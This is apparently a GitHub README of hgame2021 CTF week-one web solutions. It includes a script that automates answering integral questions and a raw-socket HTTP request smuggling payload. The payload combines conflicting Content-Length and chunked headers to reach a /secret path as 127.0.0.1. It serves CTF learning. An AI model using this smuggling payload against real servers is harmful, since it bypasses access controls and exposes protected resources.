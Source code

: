 # hgame2021

- scripts/solutions in hgame2021

## week1

### Hitchhiking_in_the_Galaxy

HTTP header tricks

### watermelon

find `alert(xxx)` in js 

### 智商检测鸡

* calc script
```python
s = requests.session()

for i in range(1,101):
    r = s.get('http://r4u.top:5000/api/getQuestion')
    quals = r.json()['question']
    print(quals)
    limit_1 = int(re.sub(r'\<(.*?)\>', '', re.findall(r'<mrow>(.*?)</mrow>', quals)[0].lstrip('<msubsup><mo>∫</mo><mrow>')))
    limit_2 = int(re.sub(r'\<(.*?)\>', '', re.findall(r'<mrow>(.*?)</mrow>', quals)[1]))
    ans = re.findall(r'\((.*)\)', re.sub('<(.*?)>', '', r.json()['question']).lstrip('∫'))[0].split('x+')
    a = int(ans[0])
    b = int(ans[1])

    x = sympy.Symbol('x')
    f = a * x + b
    result = sympy.integrate(f, (x, limit_1, limit_2))
    print((result))
    r = s.post('http://r4u.top:5000/api/verify', json={'answer': eval(str(result))})
    print(r.json())
    r = s.get('http://r4u.top:5000/api/getStatus')
    print(r.json())

r = s.get('http://r4u.top:5000/api/getFlag')
print(r.json())
```
### 宝藏走私者 && 走私者的愤怒

* http smuggle by socket

```python
import socket


s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("police.liki.link", 80))
s.send(b'GET /secret HTTP/1.1\r\nHost: police.liki.link\r\nContent-Length : 68\r\nTransfer-Encoding: chunked\r\n\r\n0\r\n\r\nGET /secret HTTP/1.1\r\nHost: 127.0.0.1\r\nClient-IP: 127.0.0.1\r\n\r\n')
r = s.recv(4096)
print(r.decode())
```
